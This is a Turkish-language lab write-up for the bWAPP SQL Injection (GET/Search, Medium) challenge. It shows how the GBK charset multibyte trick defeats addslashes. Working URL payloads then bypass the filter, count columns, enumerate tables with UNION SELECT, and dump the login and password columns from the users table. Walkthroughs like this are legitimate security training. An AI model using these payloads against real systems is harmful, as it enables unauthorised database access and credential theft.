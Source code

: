 ## bWAAP SQL Injection (GET/Search) Level Medium
Movies kısmına `'` karakteri koyuyoruz ve hata alamadığımız görüyoruz.
![](/images/first.PNG)
Bundan anlıyoruz ki `'` işaretini escapliyor. SQL sorgumuzun oluştuğu son hal ise aşağıdaki gibi olmaktadır;
```SQL
SELECT * FROM movies WHERE mname LIKE '%\'%'
```
Burada PHP tarafinda addslashes fonksiyonunun kullanıldığını görebiliriz challenge da bu fonksiyonu baypaslayabilmek için mysql char setimizin `character-set-server=GBK` şeklinde olması gereklidir.

###### MYSQL CHARSET AYARI

XAMPP yönetim panelinden my.ini konfigürasyon dosyasını açalım ve character-set-server’ı GBK olarak değiştirelim.

###### Addslashes

[Ömer Çıtak](https://omercitak.com/):
>Hex karşılığı 0xbf5c olan “¿\” karakteri, utf 8 charsetinde 2 karakter, GBK charsetinde 1 karakter olarak algılanıyor. İnjection saldırısında sorguya tek tırnak, yani 0x27 gönderdiğiniz vakit mysql_real_escape_string veya addslashes fonksiyonlarımız bizim tırnağımızı “\’” haline çeviriyor. Tırnaktan önce “¿” (0xbf) karakterini gönderdiğimizde yani “¿’” (0xbf27) karakterini gönderdiğimizde, tırnaktan önce \ eklendiğinden gönderdiğimiz karakter “¿\’” (0xbf5c27) halini alıyor. GBK charseti “¿\” karakterini tek karakter olarak aldıladığından sondaki tırnağımız boşa çıkıyor, böylece sorgunun gidişatını değiştirmiş oluyorsunuz. Sonrasında injection ile sorguyu istediğimiz şekle sokabiliriz.

###### bWAAP SQL Injection (GET/Search)

Uygulamamızda rastgele birşeyler aratalım ve url in title kısmını `title=%bf%27` olarak değiştirlerim.
![](/images/error.jpeg)
Tek tırnak işaretimiz fazla olduğu için SQL hatası aldık.Url in title kısmını `title=%bf%27or1=1--+` değiştirirsek artık hata almadığımızı ve iki koşuldan birisi doğru olduğu için tüm filmleri görmüş oluyoruz.

![](/images/or1=1.jpeg)

Tablonun kolon sayısını öğrenmek için `title=%bf%27GROUP BY (değer)--+` değer kısmını uygulama hata verene kadar bir bir arttıralım ve hata verdikten bir önceki sayımız  kolon sayımızdır.
Kolon sayımızı bulduğumuza göre UNION sorgumuzu çalıştırabiliriz.Tablo isimlerini bulmak için information_schema tablosunu kullanıyoruz. `title=%bf%27%20UNION%20SELECT%20NULL,table_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.tables--+`
![](/images/tables.jpeg)
Sırada column ismini bulamız gerekli ama bunu maalesef ki başaramıyoruz çünkü tırnak karakterini escaplemek için `%bf`kullanmamız gerekli ve bu karakter tablo ismimizin içine giriyor ve tablo ismimizi bozuyor.

Örnek:table_name='' olarak string içine yazmamız gerek tablo ismi aşağıdaki gibi tablo ismimizin sonuna %bf karakteri geliyor.
**`title=%bf%27%20UNION%20SELECT%20NULL,column_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.columns WHERE `_table_name=%bf%27tablename%bf%27--+**

Users isminde tablo bulduğumuz için klonları tahmin edebiliriz.Title ımızı değiştirerek kullanıcı adı ve parolayı çekiyoruz. 
`title=%bf%27%20UNION%20SELECT%20NULL,login,password,NULL,NULL,NULL,NULL%20FROM%20users--+`
![](/images/users.jpeg)
